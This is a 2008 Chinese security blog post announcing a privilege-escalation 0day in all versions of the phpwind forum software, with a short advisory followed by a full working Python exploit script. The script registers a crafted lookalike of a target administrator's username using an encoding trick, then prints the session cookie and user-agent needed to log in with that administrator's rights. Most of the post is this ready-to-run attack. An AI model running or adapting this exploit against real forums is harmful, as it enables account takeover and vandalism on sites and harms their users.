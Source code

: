 ```yaml
---
title: phpwind 0day 管理权限泄露漏洞 + exploit 利用程序
description: 夜火：最近漏洞多多啊，前2天的Flash0dayexploit生成器下载和dvbbs8.2(access/sql)版login.asp远程注入漏洞刚出来，今天phpwind的管理权限泄露漏洞就出来了漏洞发布：http://www.80sec.com/漏洞作者：jianxin@80sec.com漏洞厂商：http://www.phpwind.com/影响范围：本漏洞目前影响phpwind所有版本危害级别：高漏洞说明：phpwind是国内使用非常广泛的一款程序，由于在程序设计上存在错误，导致任何人可以取得前台管理员及版主权限，做删除帖子等任意操作
date: 2008-06-02 04:10:32
category: 漏洞信息
tags: ['PHPWind', '0day', 'exploit', '漏洞信息']
post_id: 506
alias: phpwind-usertoattack-0day-exploit
ViewNums: 6192
---
```


[夜火](/blog/)最近[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)多多啊，前2天的[Flash 0day exploit生成器 下载](/blog/flash-0day-exploit "flash 0day exploit生成器 下载"和[dvbbs8.2(access/sql)版 login.asp远程注入漏洞](/blog/dvbbs8.2-access-sql-version-login.asp-remote-sql-injection "dvbbs8.2(access/sql版 login.asp远程注入漏洞exploit")刚出来，今天[phpwind](/tags/PHPWind)的管理权限泄露漏洞就出来了

漏洞发布：<http://www.80sec.com/>
漏洞作者：jianxin@80sec.com
漏洞厂商：<http://www.phpwind.com/>
影响范围：本漏洞目前影响phpwind所有版本
危害级别：高
漏洞说明：phpwind是国内使用非常广泛的一款程序，由于在程序设计上存在错误，导致任何人可以取得前台管理员及版主权限，做删除帖子等任意操作

利用方式：www.80sec.com有提供[exploit](/tags/exploit)
漏洞分析：由于phpwind论坛在设计上对数据库存储机制不了解，导致在程序逻辑上判断有问题，用精心构造的数据注册用户即可获得管理权限
漏洞修补：建议关闭注册功能等待官方出补丁
漏洞状态：
08.5.25发现此漏洞
08.6.1由80sec.com公开此漏洞

暂无补丁

原始地址：<http://www.80sec.com/release/phpwind-exploit.txt>

漏洞测试(python)：

`# -*- coding: gb2312 -*-
import urllib2,httplib,sys
httplib.HTTPConnection.debuglevel = 1
cookies = urllib2.HTTPCookieProcessor()
opener = urllib2.build_opener(cookies)

def banner():
    print ""
    print "########################################################"
    print "Phpwind所有版本管理权限泄露漏洞利用poc"
    print "Copyright (C) 2006"
    print "jianxin@80sec.com"
    print "80sec是一个新的致力于web安全的小团体"
    print "http://www.80sec.com"

def usage():
    banner()
    print "Usage:
"
    print "   $ ./phpwind.py pwforumurl usertoattack
"
    print "   pwforumurl 目标论坛地址如http://www.80sec.com/"
    print "   usertoattack 目标拥有权限的斑竹或管理员"
    print "   攻击结果将会在目标论坛注册一个和目标用户一样的帐户"
    print "   最新版本可以使用uid登陆"
    print "   其他版本可以使用cookie+useragent登陆"
    print "########################################################"
    print ""

argvs=sys.argv
usage()

data = "regname=%s%s1&regpwd=@80sec&regpwdrepeat=@80sec&regemail=foo@foo.com&regemailtoall=1&step=2" % (argvs[2],"%c1")
pwurl = "%s/register.php" % argvs[1]

request = urllib2.Request(
url     = pwurl ,
        headers = {'Content-Type' : 'application/x-www-form-urlencoded','User-Agent': '80sec owned this'},
        data    = data)

f=opener.open(request)
headers=f.headers.dict
cookie=headers["set-cookie"]
try:
if cookie.index('winduser'):
print "Exploit Success!"
print "Login with uid password @80sec or Cookie:"
print cookie
print "User-agent: 80sec owned this"
except:
print "Error! http://www.80sec.com"
print "Connect root#80sec.com"`

